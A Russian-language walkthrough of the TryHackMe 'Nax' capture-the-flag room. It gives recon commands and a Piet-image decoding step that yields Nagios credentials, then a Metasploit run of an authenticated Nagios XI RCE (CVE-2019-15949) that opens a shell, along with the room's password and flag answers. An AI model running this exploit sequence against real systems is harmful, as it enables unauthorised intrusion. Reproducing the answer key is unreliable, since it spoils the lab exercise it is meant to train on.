 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Nax](https://tryhackme.com/r/room/nax) 

Всего 1 заданиe:
## Задание 1
Сможете ли вы выполнить задание?
 Загрузка и настройка машины может занять до 5 минут.
Примечание : для этой комнаты требуется Metasploit 6.

### Ответьте на вопросы ниже
Какой скрытый файл вы нашли?
```commandline
nmap -sSCV <IP>
gobuster dir -u http://<ip>:80/ -w /path-to-wordlist -x txt,php,html
curl -s http://<IP>
python3 -c "print(''.join([chr(i) for i in [47, 80, 73, 51, 84, 46, 80, 78, 103]]))"
```
```commandline
PI3T.Png
```
Кто является создателем файла?
```commandline
exiftool PI3T.PNg
```
```commandline
Piet Mondrian
```
Если при запуске инструмента на загруженном изображении возникает ошибка, связанная с неизвестным форматом ppm, 
откройте его с помощью GIMP или другой программы для рисования, экспортируйте в формат ppm и повторите попытку!
```commandline
Ответ не нужен
```
Какое имя пользователя вы нашли?
```commandline
./npiet /data/tmp/files/PI3T.ppm
```
```commandline
nagiosadmin
```
Какой пароль вы нашли?
```commandline
n3p3UQ&9BjLp4$7uhWdY
```
Какой номер CVE для этой уязвимости? Он будет в формате: CVE-0000-0000
```commandline
searchsploit ngios XI -w
```
```commandline
CVE-2019-15949
```
Теперь, когда мы нашли нашу уязвимость, давайте найдем наш эксплойт. Для этой части комнаты мы будем использовать 
модуль Metasploit, связанный с этим эксплойтом. Давайте продолжим и запустим Metasploit с помощью команды `msfconsole`.
```commandline
msfconsole
search ngios XI
use 8
show options
set LHOST AttackerIP
set RHOST MachineIP
set PASSWORD PW
run
shell
cat user.txt
cat root.txt
```
```commandline
Ответ не нужен
```
После запуска Metasploit давайте найдем наш целевой эксплойт с помощью команды 'search applicationame'. Каков полный 
путь (начиная с explore) для модуля эксплуатации?
```commandline
exploit/linux/http/nagios_xi_plugins_check_plugin_authenticated_rce
```
Взломайте машину и найдите user.txt
```commandline
THM{84b17add1d72a9f2e99c33bc568ae0f1}
```
Найдите root.txt
```commandline
THM{c89b2e39c83067503a6508b21ed6e962}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)